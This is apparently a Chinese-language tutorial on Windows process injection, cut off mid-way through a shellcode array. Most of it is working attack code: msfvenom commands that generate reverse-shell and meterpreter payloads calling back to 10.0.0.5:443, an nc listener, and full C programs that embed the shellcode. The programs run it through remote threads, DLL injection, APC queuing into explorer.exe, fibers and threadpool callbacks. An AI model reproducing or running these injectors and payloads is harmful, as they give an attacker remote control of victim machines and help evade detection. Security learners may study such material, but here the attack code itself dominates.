

## 远线程shellcode 注入

### 在本地进程中执行Shellcode

首先是一个简单的测试，测试如何直接从c++程序中执行shellcode。
为反向shell生成shellcode:

LHOST是你自己kali的ip

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```

```c

#include "Windows.h"

int main()
{
	unsigned char buf[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
		"\xff\xff\xff\x48\xbb\xa1\x88\x82\x73\xee\xc2\xdd\x4e\x48"
		"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x5d\xc0\x01"
		"\x97\x1e\x2a\x1d\x4e\xa1\x88\xc3\x22\xaf\x92\x8f\x1f\xf7"
		"\xc0\xb3\xa1\x8b\x8a\x56\x1c\xc1\xc0\x09\x21\xf6\x8a\x56"
		"\x1c\x81\xc0\x09\x01\xbe\x8a\xd2\xf9\xeb\xc2\xcf\x42\x27"
		"\x8a\xec\x8e\x0d\xb4\xe3\x0f\xec\xee\xfd\x0f\x60\x41\x8f"
		"\x32\xef\x03\x3f\xa3\xf3\xc9\xd3\x3b\x65\x90\xfd\xc5\xe3"
		"\xb4\xca\x72\x3e\x49\x5d\xc6\xa1\x88\x82\x3b\x6b\x02\xa9"
		"\x29\xe9\x89\x52\x23\x65\x8a\xc5\x0a\x2a\xc8\xa2\x3a\xef"
		"\x12\x3e\x18\xe9\x77\x4b\x32\x65\xf6\x55\x06\xa0\x5e\xcf"
		"\x42\x27\x8a\xec\x8e\x0d\xc9\x43\xba\xe3\x83\xdc\x8f\x99"
		"\x68\xf7\x82\xa2\xc1\x91\x6a\xa9\xcd\xbb\xa2\x9b\x1a\x85"
		"\x0a\x2a\xc8\xa6\x3a\xef\x12\xbb\x0f\x2a\x84\xca\x37\x65"
		"\x82\xc1\x07\xa0\x58\xc3\xf8\xea\x4a\x95\x4f\x71\xc9\xda"
		"\x32\xb6\x9c\x84\x14\xe0\xd0\xc3\x2a\xaf\x98\x95\xcd\x4d"
		"\xa8\xc3\x21\x11\x22\x85\x0f\xf8\xd2\xca\xf8\xfc\x2b\x8a"
		"\xb1\x5e\x77\xdf\x3a\x50\xb5\xae\x7c\xfe\xbb\xb0\x73\xee"
		"\x83\x8b\x07\x28\x6e\xca\xf2\x02\x62\xdc\x4e\xa1\xc1\x0b"
		"\x96\xa7\x7e\xdf\x4e\xa0\x33\x42\xdb\xac\x40\x9c\x1a\xe8"
		"\x01\x66\x3f\x67\x33\x9c\xf4\xed\xff\xa4\x74\x11\x17\x91"
		"\xc7\x4b\xe0\x83\x72\xee\xc2\x84\x0f\x1b\xa1\x02\x18\xee"
		"\x3d\x08\x1e\xf1\xc5\xb3\xba\xa3\xf3\x1d\x06\x5e\x48\xca"
		"\xfa\x2c\x8a\x22\x8e\xe9\x01\x43\x32\x54\x28\xd2\x91\x41"
		"\x77\x57\x3b\x67\x05\xb7\x5e\xe0\xd0\xce\xfa\x0c\x8a\x54"
		"\xb7\xe0\x32\x1b\xd6\x9a\xa3\x22\x9b\xe9\x09\x46\x33\xec"
		"\xc2\xdd\x07\x19\xeb\xef\x17\xee\xc2\xdd\x4e\xa1\xc9\xd2"
		"\x32\xbe\x8a\x54\xac\xf6\xdf\xd5\x3e\xdf\x02\xb7\x43\xf8"
		"\xc9\xd2\x91\x12\xa4\x1a\x0a\x85\xdc\x83\x72\xa6\x4f\x99"
		"\x6a\xb9\x4e\x82\x1b\xa6\x4b\x3b\x18\xf1\xc9\xd2\x32\xbe"
		"\x83\x8d\x07\x5e\x48\xc3\x23\xa7\x3d\x15\x03\x28\x49\xce"
		"\xfa\x2f\x83\x67\x37\x6d\xb7\x04\x8c\x3b\x8a\xec\x9c\xe9"
		"\x77\x48\xf8\xe0\x83\x67\x46\x26\x95\xe2\x8c\x3b\x79\x2d"
		"\xfb\x03\xde\xc3\xc9\x48\x57\x60\xd3\x5e\x5d\xca\xf0\x2a"
		"\xea\xe1\x48\xdd\x82\x02\x88\x0e\xb7\xd8\xf5\xe6\x9b\xf0"
		"\x1c\x84\xc2\x84\x0f\x28\x52\x7d\xa6\xee\xc2\xdd\x4e";

	void* exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, buf, sizeof buf);
	((void(*)())exec)();
	
		return 0;
}
//并且似乎将名为exec的函数指针作为函数调用。(void(*)()):这是一个类型转换，指定函数指针的类型。在这种情况下，它将函数指针强制转换为一个void返回类型，没有参数。
    //exec:这是被调用的函数指针变量的名称。():这些空括号表示调用函数指针时不带参数。因此，当((void(*)())exec)();被执行时，它调用函数指针exec作为一个不带参数的函数，并期望一个void返回类型。
     //   这假定exec是一个指向具有指定签名的函数的有效函数指针。需要注意的是，如果没有任何额外的上下文或exec的定义，就很难确定调用这个函数指针的目的或结果。
  
```

在编译之前，出于好奇，让我们看一下在反汇编器中生成的shellcode二进制文件，这样我们就可以大致了解我们的c++代码是如何被翻译成x64的机器码的:


也是出于好奇，我想看看注入的shellcode在注入的进程中看起来是什么样子，看看它实际上在哪里。使用32位的shellcode二进制文件

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```

shellcode位于主线程的堆栈中:




回到x64位的shellcode -编译和执行二进制代码为我们提供了预期的反向shell:

输入 

nc -lvvp 443 

### 在远程进程中执行Shellcode

下面的代码将把shellcode注入到一个PID为5428的notepad.exe进程中，该进程将向攻击者发起一个反向shell:

```c
#include "stdio.h"
#include "Windows.h"

int main(int argc, char* argv[])
{
	unsigned char buf[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
		"\xff\xff\xff\x48\xbb\xa1\x88\x82\x73\xee\xc2\xdd\x4e\x48"
		"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x5d\xc0\x01"
		"\x97\x1e\x2a\x1d\x4e\xa1\x88\xc3\x22\xaf\x92\x8f\x1f\xf7"
		"\xc0\xb3\xa1\x8b\x8a\x56\x1c\xc1\xc0\x09\x21\xf6\x8a\x56"
		"\x1c\x81\xc0\x09\x01\xbe\x8a\xd2\xf9\xeb\xc2\xcf\x42\x27"
		"\x8a\xec\x8e\x0d\xb4\xe3\x0f\xec\xee\xfd\x0f\x60\x41\x8f"
		"\x32\xef\x03\x3f\xa3\xf3\xc9\xd3\x3b\x65\x90\xfd\xc5\xe3"
		"\xb4\xca\x72\x3e\x49\x5d\xc6\xa1\x88\x82\x3b\x6b\x02\xa9"
		"\x29\xe9\x89\x52\x23\x65\x8a\xc5\x0a\x2a\xc8\xa2\x3a\xef"
		"\x12\x3e\x18\xe9\x77\x4b\x32\x65\xf6\x55\x06\xa0\x5e\xcf"
		"\x42\x27\x8a\xec\x8e\x0d\xc9\x43\xba\xe3\x83\xdc\x8f\x99"
		"\x68\xf7\x82\xa2\xc1\x91\x6a\xa9\xcd\xbb\xa2\x9b\x1a\x85"
		"\x0a\x2a\xc8\xa6\x3a\xef\x12\xbb\x0f\x2a\x84\xca\x37\x65"
		"\x82\xc1\x07\xa0\x58\xc3\xf8\xea\x4a\x95\x4f\x71\xc9\xda"
		"\x32\xb6\x9c\x84\x14\xe0\xd0\xc3\x2a\xaf\x98\x95\xcd\x4d"
		"\xa8\xc3\x21\x11\x22\x85\x0f\xf8\xd2\xca\xf8\xfc\x2b\x8a"
		"\xb1\x5e\x77\xdf\x3a\x50\xb5\xae\x7c\xfe\xbb\xb0\x73\xee"
		"\x83\x8b\x07\x28\x6e\xca\xf2\x02\x62\xdc\x4e\xa1\xc1\x0b"
		"\x96\xa7\x7e\xdf\x4e\xa0\x33\x42\xdb\xac\x40\x9c\x1a\xe8"
		"\x01\x66\x3f\x67\x33\x9c\xf4\xed\xff\xa4\x74\x11\x17\x91"
		"\xc7\x4b\xe0\x83\x72\xee\xc2\x84\x0f\x1b\xa1\x02\x18\xee"
		"\x3d\x08\x1e\xf1\xc5\xb3\xba\xa3\xf3\x1d\x06\x5e\x48\xca"
		"\xfa\x2c\x8a\x22\x8e\xe9\x01\x43\x32\x54\x28\xd2\x91\x41"
		"\x77\x57\x3b\x67\x05\xb7\x5e\xe0\xd0\xce\xfa\x0c\x8a\x54"
		"\xb7\xe0\x32\x1b\xd6\x9a\xa3\x22\x9b\xe9\x09\x46\x33\xec"
		"\xc2\xdd\x07\x19\xeb\xef\x17\xee\xc2\xdd\x4e\xa1\xc9\xd2"
		"\x32\xbe\x8a\x54\xac\xf6\xdf\xd5\x3e\xdf\x02\xb7\x43\xf8"
		"\xc9\xd2\x91\x12\xa4\x1a\x0a\x85\xdc\x83\x72\xa6\x4f\x99"
		"\x6a\xb9\x4e\x82\x1b\xa6\x4b\x3b\x18\xf1\xc9\xd2\x32\xbe"
		"\x83\x8d\x07\x5e\x48\xc3\x23\xa7\x3d\x15\x03\x28\x49\xce"
		"\xfa\x2f\x83\x67\x37\x6d\xb7\x04\x8c\x3b\x8a\xec\x9c\xe9"
		"\x77\x48\xf8\xe0\x83\x67\x46\x26\x95\xe2\x8c\x3b\x79\x2d"
		"\xfb\x03\xde\xc3\xc9\x48\x57\x60\xd3\x5e\x5d\xca\xf0\x2a"
		"\xea\xe1\x48\xdd\x82\x02\x88\x0e\xb7\xd8\xf5\xe6\x9b\xf0"
		"\x1c\x84\xc2\x84\x0f\x28\x52\x7d\xa6\xee\xc2\xdd\x4e";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof buf, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

	WriteProcessMemory(processHandle, remoteBuffer, buf, sizeof buf, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);

	return 0;
}
```

## DLL Injection

```c
int main(int argc, char *argv[]) {
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t dllPath[] = TEXT("C:\\experiments\\evilm64.dll");
	
	printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);	
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
	PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
	CloseHandle(processHandle); 
	
	return 0;
}
```

编译上面的代码，并使用提供的参数4892执行它，该参数是受害系统上notepad.exe进程的PID:

```
PS C:\experiments\inject1\x64\Debug> .\inject1.exe 4892
Injecting DLL to PID: 4892
```

DLL被成功注入后，攻击者从被注入的进程接收到一个meterpreter会话及其特权:


注意记事本如何生成rundll32，然后由于meterpreter负载(和攻击者的shell命令)而生成cmd.exe，该负载作为注入evilm64.dll的一部分被执行到记事本进程中:

## Reflective DLL Injection

反射DLL注入是一种允许攻击者从内存而不是磁盘将DLL注入受害进程的技术

目的
本实验的目的是:
在metasploit中测试反射DLL注入能力
在基本的记忆取证上瞎混
实现一个简单的反射DLL注入POC自己

技术概述

该技术的原作者Stephen less很好地描述了反射注入的工作方式:

https://github.com/stephenfewer/ReflectiveDLLInjection


执行通过CreateRemoteThread()或一个微小的bootstrap shellcode传递给库的ReflectiveLoader函数，该函数是在库的导出表中找到的导出函数。
由于库的图像当前存在于内存中的任意位置，因此ReflectiveLoader将首先计算其自己的图像在内存中的当前位置，以便能够解析其自己的头文件以供以后使用。
然后，ReflectiveLoader将解析主机进程kernel32.dll导出表，以便计算加载器所需的三个函数的地址，即LoadLibraryA, GetProcAddress和VirtualAlloc。
ReflectiveLoader现在将分配一个连续的内存区域，它将继续加载自己的图像。位置并不重要，因为加载程序稍后会正确地重新定位图像。
库的头和节被加载到它们在内存中的新位置。
然后，ReflectiveLoader将处理新加载的映像导入表副本，加载任何其他库并解析它们各自导入的函数地址。
然后，ReflectiveLoader将处理新加载的图像重定位表副本。
然后，ReflectiveLoader将使用DLL_PROCESS_ATTACH调用新加载图像的入口点函数DllMain。库现在已成功加载到内存中。
最后，ReflectiveLoader将返回执行到调用它的初始bootstrap shellcode，或者如果它是通过CreateRemoteThread调用的，线程将终止。


本实验假设攻击者已经从受害系统中获得了一个meterpreter shell，现在将尝试在受害系统上的远程进程中执行反射DLL注入，更具体地说，是在PID为6156的notepad.exe进程中

Metasploit的开发后模块

`windows/manage/reflective_dll_inject` configured:


一旦metasploit的post-exploitation模块运行，procmon就会准确地注册notepad创建了一个新线程:


让我们看看，当metasploit的开发后模块执行时，我们是否可以定位reflective_dll.x64.dll的内容被注入受害进程的位置。

为此，让我们在WinDBG中调试notepad，并为MessageBoxA设置一个断点，如下所示，并再次运行post-exploitation模块:


此时，我们可以用kv检查堆栈并查看调用跟踪。这里有几点需要注意:

## apc注入


异步过程调用(APC) 是**在特定线程的上下文中异步执行的函数**。 当APC 排队到线程时，系统会发出软件中断。 下次计划线程时，它将运行APC 函数。 系统生成的APC 称为内核模式APC


关于线程和 APC 队列的一些简化上下文：

线程在进程内执行代码,线程可以利用 APC 队列异步执行代码,每个线程都有一个队列，存储所有APC,应用程序可以将 APC 排队到给定线程（受特权限制）,当线程被调度时，排队的 APC 就会被执行

这种技术的缺点是恶意程序无法强制受害者线程执行注入的代码 - APC 排队的线程需要进入/处于可警报状态（即 ），但您可能[需要]()检查一下[使用 QueueUserAPC 和]()NtTestAlert sleepEx


编写一个 C++ 程序 apcqueue.exe，它将：

查找explorer.exe进程ID,在explorer.exe进程内存空间中分配内存将 shellcode 写入该内存位置

查找explorer.exe中的所有线程,将 APC 排队到所有这些线程。APC指向shellcode

执行上面的程序,当 explorer.exe 中的线程被调度时，我们的 shellcode 就会被执行

让我们首先创建一个要注入受害者进程的 meterpreter shellcode：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```

我将注入 shellcode，`explorer.exe`因为通常会发生大量线程活动，因此更有可能遇到处于可警报状态的线程，该线程将启动 shellcode。我将找到我想要注入的进程并`Process32First`调用`Process32Next`：

一旦找到explorer PID，我们需要获取explorer.exe进程的句柄并为shellcode分配一些内存。

shellcode 被写入资源管理器的进程内存，此外，还声明了一个现在指向 shellcode 的 APC 例程：

如果我们编译并执行`apcqueue.exe`，我们确实可以看到 shellcode 成功注入到进程中：

```c
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
	unsigned char buf[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x51\x56\x48\x0f\xb7\x4a\x4a\x48\x8b\x72\x50"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x8b"
"\x42\x3c\x41\x51\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
"\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x56\x48\xff\xc9\x4d\x31\xc9\x41\x8b\x34\x88"
"\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
"\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00"
"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49"
"\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x42\x82\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5"
"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b"
"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31"
"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41"
"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58"
"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00"
"\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58"
"\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00"
"\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68"
"\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba"
"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f"
"\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49"
"\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48"
"\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
"\xf0\xb5\xa2\x56\xff\xd5";
                             

	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
	HANDLE victimProcess = NULL;
	PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
	THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
	std::vector<DWORD> threadIds;
	SIZE_T shellSize = sizeof(buf);
	HANDLE threadHandle = NULL;

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
			Process32Next(snapshot, &processEntry);
		}
	}
	
	victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);

	if (Thread32First(snapshot, &threadEntry)) {
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
				threadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(snapshot, &threadEntry));
	}
	
	for (DWORD threadId : threadIds) {
		threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
		QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
		Sleep(1000 * 2);
	}
	//对于每个线程ID，它使用OpenThread打开该线程的句柄。它使用QueueUserAPC将异步过程调用(APC)排队到每个线程，并使用shellcode地址作为APC函数。它使用Sleep休眠一段时间以允许注入的代码执行。
    //最后，它返回0，表示执行成功。需要注意的是，向进程中注入代码和使用shellcode可能会产生重大的安全隐患。
	return 0;
}
```

## 通过 Fiber 执行 Shellcode

本实验的目的是使用 Windows API 目标`fibers`在本地进程中执行 shellcode。

> ```
> fibers是必须由应用程序手动调度的执行单元。fibers 在调度它们的线程的上下文中运行。 
> ```


通过fibers在本地进程中执行shellcode的过程：

将主线程转换为fibers。这是必需的，因为只有一根fibers可以调度另一根fibers。

将 shellcode 写入某个内存位置并使其可执行

创建一个指向 shellcode 位置的新纤fibers- 这是我们在将主线程转换为纤fibers时将从步骤 1 中获得的fibers调度的fibers

安排新创建的纤fibers指向我们的 shellcode

Fiber 被调度并执行 shellcode


下面的代码显示了如何使用 Fiber 执行 shellcode

```
#include <Windows.h>

int main()
{
	#convert main thread to fiber
	PVOID mainFiber = ConvertThreadToFiber(NULL);

 	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xac\x14\x0a\x07\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	PVOID shellcodeLocation = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(shellcodeLocation, shellcode, sizeof shellcode);

	#	create a fiber that will execute the shellcode
	PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)shellcodeLocation, NULL);
	
	# manually schedule the fiber that will execute our shellcode
	SwitchToFiber(shellcodeFiber);

	return 0;
}
```

运行这段代码会在一个反向shell中执行shellcode:

## 通过CreateThreadpoolWait 执行 Shellcode

这是一个探索 API 序列的快速实验，它可以通过调用传递给 的回调函数来执行 shellcode `CreateThreadpoolWait`。

`CreateEvent`用于创建具有`Signaled`状态的事件对象,为 shellcode 分配 RWX 内存，`VirtualAlloc`并将 shellcode 写入其中,`CreateThreadpoolWait`用于创建等待对象。该函数的第一个参数是一个回调函数，一旦等待结束就会调用该函数（在我们的例子中立即调用，因为我们的可等待事件`Signaled`从一开始就处于状态）。

我们将传递 shellcode 的地址（在步骤 2 中分配）作为回调函数`SetThreadpoolWait`用于将等待对象设置为步骤3中创建的等待对象

`WaitForSingleObject`用于等待可等待对象变为`Signaled`，但由于我们的事件（可等待）对象是`Signaled`在步骤 1 中使用状态创建的，因此调用步骤 3 中指定的回调函数并立即执行 shellcode：

```c
#include <windows.h>
#include <threadpoolapiset.h>

unsigned char shellcode[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
